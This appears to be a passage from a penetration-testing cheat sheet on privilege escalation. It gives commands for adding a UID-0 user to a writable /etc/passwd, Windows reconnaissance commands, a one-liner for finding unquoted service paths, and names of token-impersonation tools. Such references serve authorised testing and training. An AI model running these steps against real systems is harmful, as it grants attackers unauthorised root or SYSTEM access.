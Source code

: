 #### Writable /etc/passwd
```bash
# Generate password hash
openssl passwd -1 -salt abc password123

# Add user to /etc/passwd
echo 'newroot:HASH:0:0:root:/root:/bin/bash' >> /etc/passwd

# Switch user
su newroot
```

### Windows Privilege Escalation

#### System Info
```powershell
# System info
systeminfo
hostname
whoami /priv
whoami /groups

# Network info
ipconfig /all
route print
netstat -ano

# Users
net user
net localgroup administrators
```

#### AutoRuns
```powershell
# Check startup programs
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run

# Check services
wmic service get name,displayname,pathname,startmode
```

#### Unquoted Service Paths
```powershell
# Find unquoted service paths
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

#### Token Impersonation
```powershell
# Check privileges
whoami /priv

# If SeImpersonatePrivilege or SeAssignPrimaryTokenPrivilege
# Use JuicyPotato, PrintSpoofer, or RoguePotato
```

---